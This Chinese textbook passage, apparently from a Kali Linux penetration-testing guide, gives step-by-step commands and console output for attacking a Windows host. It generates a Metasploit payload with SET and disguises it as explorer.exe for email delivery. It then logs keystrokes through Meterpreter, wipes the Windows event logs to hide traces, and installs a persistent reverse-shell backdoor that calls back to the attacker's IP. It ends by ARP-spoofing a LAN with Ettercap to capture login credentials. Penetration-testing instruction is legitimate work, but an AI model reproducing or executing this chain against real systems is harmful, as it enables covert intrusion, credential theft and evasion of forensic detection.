



7.3 使用社会工程学工具包（SET）
社会工程学工具包（SET）是一个开源的、Python驱动的社会工程学渗透测试工具。这套工具包由David Kenned设计，而且已经成为业界部署实施社会工程学攻击的标准。SET利用人们的好奇心、信任、贪婪及一些愚蠢的错误，攻击人们自身存在的弱点。使用SET可以传递攻击载荷到目标系统，收集目标系统数据，创建持久后门，进行中间人攻击等。本节将介绍社会工程学工具包的使用。
7.3.1 启动社会工程学工具包
使用社会工程学工具包之前，需要启动该工具。具体操作步骤如下所示。
（1）启动SET。在终端执行如下所示的命令：
root@kali:~# setoolkit
或者在桌面上依次选择“应用程序”|Kali Linux|“漏洞利用工具集”|Social Engineering Toolkit|setoolkit命令，将自动打开一个显示setoolkit命令运行的终端。
执行以上命令后，将输出如下所示的信息：
[-] New set_config.py file generated on: 2014-05-06 18:05:41.766123
[-] Verifying configuration update…
[*] Update verified, config timestamp is: 2014-05-06 18:05:41.766123
[*] SET is using the new config, no need to restart
Copyright 2013, The Social-Engineer Toolkit (SET) by TrustedSec, LLC
All rights reserved.
Redistribution and use in source and binary forms, with or without modification, are permitted provided that the following conditions are met:
* Redistributions of source code must retain the above copyright notice, this list of conditions and the following disclaimer.
* Redistributions in binary form must reproduce the above copyright notice, this list of conditions and the following disclaimer
in the documentation and/or other materials provided with the distribution.
* Neither the name of Social-Engineer Toolkit nor the names of its contributors may be used to endorse or promote products derived from
this software without specific prior written permission.
THIS SOFTWARE IS PROVIDED BY THE COPYRIGHT HOLDERS AND CONTRIBUTORS "AS IS" AND ANY EXPRESS OR IMPLIED WARRANTIES, INCLUDING, BUT NOT
LIMITED TO, THE IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE ARE DISCLAIMED. IN NO EVENT SHALL THE COPYRIGHT
OWNER OR CONTRIBUTORS BE LIABLE FOR ANY DIRECT, INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES (INCLUDING, BUT NOT
LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES; LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER CAUSED AND ON ANY
THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY, OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE OF
THIS SOFTWARE, EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.
The above licensing was taken from the BSD licensing and is applied to Social-Engineer Toolkit as well.
Note that the Social-Engineer Toolkit is provided as is, and is a royalty free open-source application.
Feel free to modify, use, change, market, do whatever you want with it as long as you give the appropriate credit where credit
is due (which means giving the authors the credit they deserve for writing it). Also note that by using this software, if you ever
see the creator of SET in a bar, you should give him a hug and buy him a beer. Hug must last at least 5 seconds. Author
holds the right to refuse the hug or the beer.
The Social-Engineer Toolkit is designed purely for good and not evil. If you are planning on using this tool for malicious purposes that are
not authorized by the company you are performing assessments for, you are violating the terms of service and license of this toolset. By hitting
yes (only one time), you agree to the terms of service and that you will only use this tool for lawful purposes only.
Do you agree to the terms of service [y/n]:
输出的信息详细的介绍了SET。该信息在第一次运行时，才会显示。在该界面接受这部分信息后，才可进行其他操作。此时输入y，将显示如下所示的信息：
以上显示了社会工程学工具包的创建者、版本、代号及菜单信息。此时可以根据自己的需要，选择相应的编号进行操作。
（2）这里选择攻击社会工程学，在菜单中的编号为1，所以在set>后面输入1，将显示如下所示的信息：
set> 1
Welcome to the Social-Engineer Toolkit (SET).
The one stop shop for all of your SE needs.
Join us on irc.freenode.net in channel #setoolkit
The Social-Engineer Toolkit is a product of TrustedSec.
Visit: https://www.trustedsec.com
Select from the menu:
1) Spear-Phishing Attack Vectors
2) Website Attack Vectors
3) Infectious Media Generator
4) Create a Payload and Listener
5) Mass Mailer Attack
6) Arduino-Based Attack Vector
7) SMS Spoofing Attack Vector
8) Wireless Access Point Attack Vector
9) QRCode Generator Attack Vector
10) Powershell Attack Vectors
11) Third Party Modules
99) Return back to the main menu.
set>
以上信息显示了攻击社会工程学的菜单选项，这时就可以选择攻击工程学的类型，然后进行攻击。
（3）这里选择创建一个攻击载荷和监听器，输入编号4，如下所示：

输出的信息显示了可生成的所有攻击载荷，此时根据自己的目标系统选择相应的攻击载荷。
（4）本例中攻击的目标系统为Windows XP 32位，所以这里选择编号2。如下所示：
set:payloads> 2
Select one of the below, 'backdoored executable' is typically the best. However,
most still get picked up by AV. You may need to do additional packing/crypting
in order to get around basic AV detection.
1) shikata_ga_nai
2) No Encoding
3) Multi-Encoder
4) Backdoored Executable
输出的信息显示了获取基于AV攻击的几种方法。
（5）这里选择第4种，输入编号4，如下所示：

输出的信息显示了设置社会工程学的一个过程，在该过程中将指定的IP地址与端口进行了绑定，并且打开了一个handler。这里将IP地址与端口进行绑定，是因为一个主机上可能存在多个网卡，但是端口号是不变的。这样启动监听器后攻击主机将等待被渗透攻击的系统来连接，并负责处理这些网络连接。
7.3.2 传递攻击载荷给目标系统
攻击载荷（Payload）指的是用户期望目标系统在被渗透攻击之后执行的代码。在Metasploit框架中可以自由地选择、传送和植入。例如，反弹式Shell是一种从目标主机到攻击主机创建网络连接，并提供命令行Shell的攻击载荷，而Bind Shell攻击载荷则在目标系统上将命令行Shell绑定到一个打开的监听端口，攻击者可以连接这些端口来取得Shell交互。攻击载荷也可能是简单的在目标系统上执行一些命令，如添加用户账号等。下面将介绍创建攻击载荷给目标系统的方法。
传递攻击载荷给目标系统。具体操作步骤如下所示。
（1）社会工程学工具默认安装在/usr/share/set下，在该目录中有一个EXE文件，名为payload.exe。在渗透测试时为了避免被目标主机用户发现，建议修改该文件名，然后再发送给其他人。发送给其他人的方法很多，如邮件和存储在优盘等。首先切换到/usr/share/set目录中，查看该目录下的文件。执行命令如下所示：
从以上内容中可以看到有一个名为payload.exe的文件。接下来可以修改该文件的名为explorer.exe，然后发送给其他人。
（2）修改payload.exe文件名。执行命令如下所示：
从以上内容可以看到，目前只有一个名为explorer.exe文件。
（3）将该文件传递给其他人。如果使用邮件的形式传递，需要将该文件进行压缩。因为邮件不支持发送EXE文件。可以使用ZIP命令压缩该文件，如下所示：
root@kali:/usr/share/set# zip healthfiles explorer.exe
adding: explorer.exe (deflated 88%)
从输入内容可以看到，explorer.exe文件被成功压缩。此时，就可以通过邮件的形式发送给其他人。当该内容被目标系统中的用户打开后，将会与攻击者建立一个活跃的会话。如下所示：
msf exploit(handler) >
[*] Sending stage (769024 bytes) to 192.168.41.146
[*] Meterpreter session 1 opened (192.168.41.234:443 -> 192.168.41.146:2126) at 2014-05-06 19:25:43 +0800
看到以上内容，表示目标系统与攻击者成功建立了会话。现在，攻击者就可以在目标系统上做自己想要做的事。
7.3.3 收集目标系统数据
在前面介绍了将攻击载荷传递给目标系统，并成功建立会话。当成功建立会话后，攻击者可以从目标系统中收集其数据。收集目标系统的数据，使用户尽可能使用这些信息做进一步渗透攻击。下面将介绍收集目标系统的数据。收集目标系统数据的具体操作步骤如下所示。
（1）激活Meterpreter会话。执行命令如下所示：
msf exploit(handler) > sessions -i 1
[*] Starting interaction with 1…
（2）开启键盘记录器。执行命令如下所示：
meterpreter > keyscan_start
Starting the keystroke sniffer…
（3）收集目标系统中的数据。执行命令如下所示：
meterpreter > keyscan_dump
Dumping captured keystrokes…
<Return> <Return> <Return> <N1> <Return> 2 <Return> 34
从输出的信息可以看到，目标系统执行过回车键、输入了数字1、2和34等。
7.3.4 清除踪迹
当攻击者入侵目标系统后，做的任何操作都可能会被记录到目标系统的日志文件中。为了不被目标系统所发现，清除踪迹是非常重要的工作。因为如果被发现，可能带来很大的麻烦。现在用户不用担心这个问题了，因为Metasploit提供了一种方法可以很容易的来清除所有踪迹。下面将介绍使用Metasploit清除踪迹的方法。使用Metasploit清除踪迹的具体操作步骤如下所示。
（1）激活Meterpreter会话。执行命令如下所示：
msf exploit(handler) > sessions -i 1
[*] Starting interaction with 1…
（2）在Metasploit中的irb命令可以清除踪迹。执行命令如下所示：
meterpreter > irb
[*] Starting IRB shell
[*] The 'client' variable holds the meterpreter client
>>
输出的信息中看到>>提示符，表示成功运行了irb命令。
（3）设置想要删除的日志。常用的日志选项如下所示：
- log = client.sys.eventlog.open('system')；
- log = client.sys.eventlog.open('security')；
- log = client.sys.eventlog.open('application')；
- log = client.sys.eventlog.open('directory service')；
- log = client.sys.eventlog.open('dns server')；
- log = client.sys.eventlog.open('file replication service')。
这里清除所有日志。执行命令如下所示：
>> log = client.sys.eventlog.open('system')
>> log = client.sys.eventlog.open('security')
>> log = client.sys.eventlog.open('application')
>> log = client.sys.eventlog.open('directory service')
>> log = client.sys.eventlog.open('dns server')
>> log = client.sys.eventlog.open('file replication service')
执行以上命令后，表示指定了要清除的日志。接下来需要执行log.clear命令才可以清除日志文件。执行命令如下所示：
>> log.clear
执行以上命令后，将会隐藏用户的踪迹。
7.3.5 创建持久后门
当成功获取目标系统的访问权限后，需要寻找方法来恢复与目标主机的连接，而无需再进入目标系统。如果目标用户破坏了该连接，例如重新启动计算机，此时使用后门将允许自动重新与目标系统建立连接。为了后续渗透方便，所以需要创建一个后门。这样，即使连接被中断，也不会影响工作。下面将介绍创建持久后门。创建持久后门的具体操作步骤如下所示。
（1）激活Meterpreter会话。执行命令如下所示：
msf exploit(handler) > sessions -i 1
[*] Starting interaction with 1…
meterpreter >
（2）创建持久后门之前，先查看下它的帮助文件。执行命令如下所示：
以上信息显示了持久后门的一些选项。使用不同的选项，来设置后门。
（3）创建一个持久后门。执行命令如下所示：
meterpreter > run persistence -U -A -i 10 - 8090 -r 192.168.41.234
[*] Running Persistance Script
[*] Resource file for cleanup created at /root/.msf4/logs/persistence/
AA-886OKJM26FSW_20140507.2857/AA-886OKJM26FSW_20140507.2857.rc
[*] Creating Payload=windows/meterpreter/reverse_tcp LHOST=192.168.41.234 LPORT=4444
[*] Persistent agent script is 148405 bytes long
[+] Persistent Script written to C:\DOCUME~1\Test\LOCALS~1\Temp\IzXBdJvcpnD.vbs
[*] Starting connection handler at port 4444 for windows/meterpreter/reverse_tcp
[+] Multi/Handler started!
[*] Executing script C:\DOCUME~1\Test\LOCALS~1\Temp\IzXBdJvcpnD.vbs
[+] Agent executed with PID 1612
[*] Installing into autorun as HKCU\Software\Microsoft\Windows\
CurrentVersion\Run\mERugsIe
[+] Installed into autorun as HKCU\Software\Microsoft\Windows\
CurrentVersion\Run\mERugsIe
输出的信息显示了创建后门的一个过程。在以上信息中可以看到，在目标系统中创建了一个持久脚本，保存在C:\DOCUME~1\Test\LOCALS~1\Temp\IzXBdJvcpnD.vbs。并且，该脚本会自动在目标主机上运行，此时将会建立第二个Meterpreter会话。如下所示：
meterpreter > [*] Meterpreter session 2 opened (192.168.41.234:443 -> 192.168.41.146:1032) at 2014-05-07 16:25:47 +0800
看到以上的输出信息，表示该持久后门已创建成功。
7.3.6 中间人攻击（MITM）
中间人攻击（Man in the Middle Attack，简称“MITM攻击”）是一种间接的入侵攻击。这种攻击模式是通过各种技术手段，将受入侵者控制的一台计算机虚拟放置在网络连接中的两台通信计算机之间，这台计算机就称为“中间人”。下面将介绍使用Ettercap工具实现中间人攻击。
1. 存在的漏洞
前面介绍了中间人攻击是通过使用各种技术手段对目标主机进行攻击的。主机既然被攻击，则说明在传输数据的过程中存在有漏洞。接下来就分析一下所存在的漏洞。
当主机之间进行通信时，通过封装数据包进而转发到目标主机上。转发的数据包中包括源IP地址、目标IP地址及MAC地址。但是当主机在自己的缓存表中找不到目标主机的地址时，它会发送ARP广播，在此过程中就可能被其他攻击者冒充目标主机。
2. ARP欺骗原理
实施中间人攻击时，攻击者常考虑的方式是ARP欺骗或DNS欺骗等。下面以常见ARP欺骗为例，分别介绍一下ARP欺骗原理。
一般情况下，ARP欺骗并不是使网络无法正常通信，而是通过冒充网关或其他主机使得到达网关或主机的数据流通过攻击主机进行转发。通过转发流量可以对流量进行控制和查看，从而控制流量或得到机密信息。ARP欺骗主机的流程如图7.2所示。
如图7.2所示，当主机A和主机B之间通信时，如果主机A在自己的ARP缓存表中没有找到主机B的MAC地址时，主机A将会向整个局域网中所有计算机发送ARP广播，广播后整个局域网中的计算机都收到了该数据。这时候，主机C响应主机A，说我是主机B，我的MAC地址是XX-XX-XX-XX-XX-XX，主机A收到地址后就会重新更新自己的缓冲表。当主机A再次与主机B通信时，该数据将被转发到攻击主机（主机C）上，则该数据流会经过主机C转发到主机B。
图7.2 ARP欺骗主机
3. 中间人攻击
实现中间人攻击分为两个阶段。第一是通过某种手段去攻击一台计算机；第二是欺骗主机。这两个阶段工作工程如图7.3和图7.4所示。
第一阶段：

图7.3 ARP注入攻击
在该阶段主机B通过ARP注入攻击的方法以实现ARP欺骗，通过ARP欺骗的方法控制主机A与其他主机间的流量及机密信息。
第二阶段：
在第一个阶段攻击成功后，主机B就可以在这个网络中使用中间人的身份，转发或查看主机A和其他主机间的数据流，如图7.4所示。
图7.4 中间人攻击机制
（1）在这个局域网中当主机A向主机C发送请求，此时该数据将被发送到主机B上。
（2）主机A发送给主机C的数据流将会经主机B转发到主机C上。
（3）主机C收到数据以为是主机A直接发送的。此时主机C将响应主机A的请求，同样的该数据流将会被主机B转发到主机A上。
（4）主机A收到响应后，将登录主机C。这样主机A登录时的用户名及密码，将会被主机B查看到。
使用Ettercap工具实现中间人攻击。具体操作步骤如下所示。
（1）启动Ettercap工具。执行命令如下所示：
root@kali:~# ettercap -G
执行以上命令后，将显示如图7.5所示的界面。
图7.5 Ettercap启动界面
（2）该界面是Ettercap工具的初始界面。接下来通过抓包的方法实现中间人攻击。在菜单栏中依次选择Sniff|Unified sniffing命令或按下Shift+U组合键，将显示如图7.6所示的界面。
图7.6 启动嗅探
（3）在该界面单击Unified sniffing命令后，将显示如图7.7所示的界面。

图7.7 选择接口
（4）在该界面选择网络接口。这里选择eth0，然后单击“确定”按钮，将显示如图7.8所示的界面。
图7.8 启动接口界面
（5）启动接口后，就可以扫描所有的主机了。在菜单栏中依次选择Hosts|Scan for hosts命令或按下Ctrl+S组合键，如图7.9所示。
图7.9 启动扫描主机
（6）在该界面单击Scan for hosts命令后，将显示如图7.10所示的界面。
图7.10 扫描主机界面
（7）从该界面输出的信息可以看到共扫描到五台主机。如果要查看扫描到主机的信息，在菜单栏中依次选择Hosts|Hosts list命令或按下H键，如图7.11所示。

图7.11 打开主机列表
（8）在该界面单击Hosts list命令后，将显示如图7.12所示的界面。
图7.12 扫描到的所有主机
（9）该界面显示了扫描到的五台主机的IP地址和MAC地址。在该界面选择其中一台主机，作为目标系统。这里选择192.168.41.151主机，然后单击Add to Target 1按钮。添加目标系统后开始嗅探数据包，在菜单栏中依次选择Start|Start sniffing命令或按下Ctrl+W组合键，如图7.13所示。
图7.13 开始扫描
（10）启动嗅探后，通过使用ARP注入攻击的方法获取到目标系统的重要信息。启动ARP注入攻击，在菜单栏中依次选择Mitm|Arp poisonig…命令，如图7.14所示。
图7.14 Arp注入攻击图
（11）单击Arp poisonig命令后，将显示如图7.15所示的界面。在该界面选择攻击的选项，这里选择Sniff remote connections。然后单击“确定”按钮，将显示如图7.16所示的界面。
图7.15 攻击选项
图7.16 攻击界面
（12）此时，当某个用户登录192.168.41.151主机时，它的敏感信息将会被传递给攻击者。本例中捕获到的敏感信息如图7.17所示。

图7.17 捕获到的敏感信息
（13）从该界面可以看到，有用户登录192.168.41.151主机的FTP服务器了。其用户名为anonymous，密码为123456。获取这些信息后停止嗅探，在菜单栏中依次单击Start|Stop sniffing命令，如图7.18所示。
图7.18 停止嗅探
（14）停止嗅探后，还需要停止中间人攻击。在菜单栏中依次单击Mitm|Stop mitm attack(s)命令，将显示如图7.19所示的界面。
图7.19 停止中间人攻击
（15）在该界面单击“确定”按钮，这样就成功的完成了中间人攻击。